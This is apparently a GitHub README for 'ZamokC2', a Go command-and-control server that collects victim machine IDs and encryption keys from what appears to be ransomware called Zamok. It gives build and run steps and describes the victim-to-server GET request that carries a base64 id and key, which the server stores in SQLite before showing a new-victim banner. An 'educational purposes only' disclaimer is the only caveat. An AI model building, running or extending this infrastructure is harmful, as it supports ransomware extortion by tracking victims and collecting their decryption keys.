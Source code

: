 # ZamokC2
A simple but effective C2 Server for Zamok

## Setup :
- Clone this repository
- Navigate to the project directory and run :
    ```
    go get
    ```
- To build the C2, run :
    ```
    go build -o zamokc2
    ```
You can now start it by simply running :
    ```
    ./zamokc2
    ```

## How it works :
1. Starts a listener on port 8080 (the default one; you can change it)
2. It expects a GET request from the target/victim 
3. The GET request is like this :
    ```
    GET http://c2.server:8080/<SOME_STRING>
    ```
    Where :
    - SOME_STRING is a base64 string of a unique victim machine id and the encryption/decryption key concatenated with a :
4. The C2 breaks down the request and gets the 2 values : the id and the key
5. It saves these values to an SQLite database locally 
6. It displays a banner on the terminal, with the details of the new victim machine

## Warning :
This project is for educational purposes only, and I will not be responsible for \
anything malicious you do with it !